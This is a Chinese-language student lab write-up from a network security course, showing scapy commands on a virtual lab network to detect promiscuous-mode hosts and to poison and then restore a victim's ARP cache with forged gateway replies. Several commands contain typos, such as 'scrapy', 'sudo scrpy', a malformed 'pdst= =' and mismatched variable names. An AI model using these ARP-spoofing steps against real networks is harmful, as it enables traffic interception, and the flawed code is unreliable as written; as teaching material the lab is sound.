 # 第四章 网络监听实验

## 网络拓扑

### 网络拓扑

![网络拓扑图](img/网络拓扑图.png)

### 节点信息

- 网关（Debian-gw）
  - MAC地址：08:00:27:ff:b8:28  /enp0s9
  - IP地址：172.16.111.1
- 攻击者（attacker-kali）
  - MAC地址：08:00:27:0e:95:b9
  - IP地址：172.16.111.141
- 受害者（victim-kali-1）
  - MAC地址：08:00:27:c5:c0:21 /eth0
  - IP地址：172.16.111.130



## 实验准备

### 安装scapy

```bash
# 安装 python3
sudo apt update
sudo apt install python3 python3-pip
# 安装scrapy
pip3 install scrapy[complete]
```

![scapy-install](img/scapy-install.png)



## 实验过程

### 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的混杂模式是否启用
ip link show eth0
```

![ip-link-show](img/ip-link-show.png)

```bash
# 在攻击者主机开启scapy 
scapy
# 直接使用scapy开启后，对于下一步的操作，会出现：Operation not permitted 的报错，提示权限有问题
# 重新尝试使用以下口令开启scapy
sudo scrpy
```

![start-scapy](img/start-scapy.png)

```bash
# 在scapy终端输入以下代码回车执行
pkt = promiscping("172.16.111.130")
```

![scapy-pkt](img/scapy-pkt.png)

```bash
# 回到受害者主机开启网卡的混杂模式
# 注意上述输出结果应该没有PROMISC 字符串
# 手动开启该网卡混杂模式
sudo ip link set eth0 promisc on
# 此时的输出结果会多出来 PROMISC
ip link show eth0
```

![set-promisc](img/set-promisc.png)

<img src="img/ip-link-show-promisc.png" alt="ip-link-show-promisc" style="zoom:80%;" />

```bash
# 回到攻击者主机的scapy交互式终端继续执行命令
# 观察两次输出结果的不同
pkt = promiscping("172.16.111.130")
```

![pkt-difference](img/pkt-difference.png)

受害者主机没有开启混杂模式时，用scapy的promiscping进行检测，可以看到有一个packet被记录下来，但是没有IP与MAC信息

在受害者主机开启混杂模式后，进行相同的检测可以看到相应的MAC地址与IP信息

promiscping命令：

- 混杂模式：接受所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
- 普通模式：网卡只接受发给本机的包

```bash
# 在受害者主机，手动关闭网卡的混杂模式
sudo ip link set promisc off
```

![set-promisc-off](img/set-promisc-off.png)



### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码均在攻击者主机 scapy 终端完成

```bash
# 获取当前局域网的网关MAC地址
# 构造一个ARP请求
arpboradcast = Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(op = 0,pdst= ="172.16.111.1")

#查看构造好的ARP报文请求
arpboradcast.show()
```

![arpbroadcast](img/arpbroadcast.png)

```bash
# 伪造一个网关的ARP响应包
# 攻击者主机准备发给受害者主机 IP：172.16.111.130
# ARP响应的目的MAC地址设置为攻击者主机的MAC地址 08:00:27:0e:95:b9
arpspoofed = Ether()/ARP(op=2,psrc="172.16.111.1",pdst="172.16.111.130",hwdst="08:00:27:0e:95:b9")

# 发送上述伪造的ARP响应数据包
sendp(arpspoofed)
```

![arpspoofed](img/arpspoofed.png)

此时，在受害者主机上查看ARP缓存，网关的MAC地址已被替换为攻击者主机的MAC地址

```bash
ip neigh
```

![replace-mac](img/replace-mac.png)

继续回到攻击者主机scapy终端

```bash
# 回复受害者主机的ARP缓存记录
## 伪装网关给受害者发送ARP响应
restoreptk1 = Ether()/ARP(op=2,psrc="172.16.111.1",hwsrc="08:00:27:ff:b8:28",pdst="172.16.111.130",hwdst"08:00:27:c5:c0:21")
sendp(restorepkt1,count=100,inter=0.2)

## (选做)
restorepkt2 = Ether()/ARP(op=2,pdst="172.16.111.1",hwdst="08:00:27:ff:b8:28",psrc="172.16.111.130",hwsrc="08:00:27:c5:c0:21")
```

![restoreptk](img/restoreptk.png)

此时，到受害者主机上准备刷新网关ARP记录

```bash
# 在受害者主机上尝试ping网关
ping 172.16.111.1
# 等ARP缓存刷新成功，退出ping
# 查看受害者主机上ARP缓存，已恢复正常网关ARP记录
ip neigh
```

![recover-gw](img/recover-gw.png)



## 参考资料

[网络安全电子教材](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

[参考资料](https://github.com/CUCCS/2022-ns-public-Xuyan-cmd/tree/chap0%C3%9704)
